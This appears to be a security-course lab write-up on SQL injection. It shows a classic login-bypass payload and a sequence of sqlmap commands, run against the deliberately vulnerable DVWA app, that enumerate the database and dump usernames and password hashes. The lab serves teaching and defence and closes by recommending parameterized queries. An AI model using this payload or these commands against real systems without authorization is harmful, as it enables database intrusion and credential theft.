 ## Experiment 8: Performing SQL Injection Attacks with SQLmap

**Aim:** To perform an automated SQL Injection (SQLi) attack using the tool SQLmap to bypass authentication and extract sensitive data from the underlying database.

---

### 1. Theory

**SQL Injection (SQLi)** is a code injection technique used to attack data-driven applications. It occurs when an attacker inserts or "injects" malicious SQL statements into an entry field for execution by the backend database. A successful SQLi attack can read sensitive data, modify database records, execute administration operations on the database (like shutdown), and in some severe cases, issue commands to the operating system.

The vulnerability stems from applications that construct SQL queries by concatenating user-supplied input directly into the query string. For example, a login query might look like this:

`SELECT * FROM users WHERE username = 'USER_INPUT' AND password = 'PASSWORD_INPUT';`

If the application does not sanitize the inputs, an attacker can manipulate the query structure. By entering `' OR '1'='1' --` in the username field, the query becomes:

`SELECT * FROM users WHERE username = '' OR '1'='1' --' AND password = '...';`

The `'1'='1'` condition is always true, and the `--` comments out the rest of the query. This causes the `WHERE` clause to be true for every row, logging the attacker in as the first user in the database without needing a valid password.

**SQLmap Overview**

SQLmap is a powerful, open-source penetration testing tool that automates the process of detecting and exploiting SQL injection vulnerabilities. It can:
* Identify vulnerable parameters in web applications.
* Perform various types of injection attacks (e.g., boolean-based blind, time-based blind, error-based, UNION query-based).
* Enumerate databases, tables, columns, and data.
* Dump entire database tables or specific entries.
* In some cases, gain an operating system shell or database console access.

---

### 2. Requirements

* **Tool:** SQLmap (pre-installed in Kali Linux or available for download).
* **Vulnerable Application:** Damn Vulnerable Web Application (DVWA).
* **Web Browser:** To capture a valid HTTP request.
* **Local Server Environment:** A server stack (e.g., XAMPP, Docker) to host DVWA.

---

### 3. Disclaimer

> **⚠️ Educational Use Only:** SQLmap is a potent attack tool. Use it **only** against systems you are explicitly authorized to test. Unauthorized use is illegal and can cause significant damage.

---

### 4. Procedure

This procedure uses **Damn Vulnerable Web Application (DVWA)** with the security level set to **Low**.

1.  **Setup and Navigate:**
    * Log in to your local DVWA instance.
    * Navigate to the **SQL Injection** page. This page features a simple form to look up a user by their ID.

2.  **Get a Valid Request and Cookie:**
    * To use SQLmap effectively on an authenticated page, you need to provide it with a valid session cookie.
    * In your browser, open the developer tools (usually F12) and go to the "Network" tab.
    * On the SQL Injection page in DVWA, enter a user ID of `1` and click "Submit".
    * In the Network tab, find the request to the `/vulnerabilities/sqli/` page.
    * You need two pieces of information from this request:
        * **The Full URL:** `http://<DVWA-IP>/vulnerabilities/sqli/?id=1&Submit=Submit#`
        * **The Session Cookie:** From the request headers, copy the entire `Cookie:` header value. It will look something like `security=low; PHPSESSID=a1b2c3d4e5f6g7h8`.

3.  **Run SQLmap to Enumerate Databases:**
    * Open a terminal on your attacking machine (e.g., Kali Linux).
    * Use the following command to make SQLmap test the `id` parameter and list the available databases. Replace the URL and cookie with your own values.
        ```bash
        sqlmap -u "http://<DVWA-IP>/vulnerabilities/sqli/?id=1" --cookie="security=low; PHPSESSID=<YOUR-SESSION-ID>" --dbs
        ```
    * SQLmap will analyze the parameter and should confirm it is vulnerable. It will then list all the databases on the server, including `dvwa` and `information_schema`.

4.  **Enumerate Tables in the `dvwa` Database:**
    * Now, instruct SQLmap to list the tables within the `dvwa` database.
        ```bash
        sqlmap -u "http://<DVWA-IP>/vulnerabilities/sqli/?id=1" --cookie="security=low; PHPSESSID=<YOUR-SESSION-ID>" -D dvwa --tables
        ```
    * SQLmap will list the tables, and you should see a `users` table, which is a high-value target.

5.  **Enumerate Columns in the `users` Table:**
    * Next, find out what columns are in the `users` table.
        ```bash
        sqlmap -u "http://<DVWA-IP>/vulnerabilities/sqli/?id=1" --cookie="security=low; PHPSESSID=<YOUR-SESSION-ID>" -D dvwa -T users --columns
        ```
    * This will show columns like `user_id`, `first_name`, `last_name`, `user`, and `password`.

6.  **Dump Data from the `users` Table:**
    * Finally, tell SQLmap to extract (dump) the contents of the `user` and `password` columns.
        ```bash
        sqlmap -u "http://<DVWA-IP>/vulnerabilities/sqli/?id=1" --cookie="security=low; PHPSESSID=<YOUR-SESSION-ID>" -D dvwa -T users -C user,password --dump
        ```
    * SQLmap will retrieve the data and display it in your terminal. It will also recognize that the passwords are MD5 hashes and ask if you want to try and crack them using a dictionary attack. You can choose 'Y' to attempt this.

---

### 5. Conclusion

This experiment showcased the efficiency and power of automated SQL injection tools like SQLmap. By providing a target URL and a valid session cookie, we were able to confirm a vulnerability and systematically extract sensitive information—usernames and password hashes—from the database with just a few commands. This underscores the critical need for developers to implement **parameterized queries (prepared statements)** instead of using dynamic SQL, as this is the primary and most effective defense against all forms of SQL injection.